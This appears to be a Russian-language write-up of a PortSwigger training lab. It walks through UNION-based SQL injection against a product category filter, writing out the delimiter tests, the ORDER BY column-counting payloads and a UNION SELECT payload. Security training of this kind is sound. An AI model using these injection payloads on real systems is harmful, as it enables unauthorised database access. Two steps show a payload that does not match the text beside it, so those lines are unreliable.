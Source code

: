 ```yaml
---
title: "SQL injection UNION attack, determining the number of columns returned by the query"
date: 2025-06-19
tags: [sqli, writeup]
tagline: 
  Source: [Coffee Cube](https://t.me/coffee_cube)  
  Lab: [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


## Scope

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для решения необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Solution

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице, и значения для фильтрации передаются через параметры `GET`-запроса.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/1.png){: height="200" .align-center}

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```


Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/2.png){: height="200" .align-center}

Запрос к БД выглядел следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

<details>
  <summary>Подробнее</summary>
  
  `-- -` - это комментарий в SQL, с помощью него я убрал всю последующую часть запроса. В данном случае это лишняя кавычка, которая ломала бы запрос.
</details>
<br>

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/3.png){: height="200" .align-center}

Далее можно использовать бинарный поиск для нахождения нужного значения. То есть передать 50. В случае ошибки взять 25. Если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4 (для сокращения буду писать только часть пейлоада):

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/4.png){: height="200" .align-center}

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/5.png){: height="200" .align-center}

Супер. ~~Сбер теперь купер~~.

Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД:
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/6.png){: height="200" .align-center}

Оберну значения в кавычки:

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/7.png){: height="200" .align-center}

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
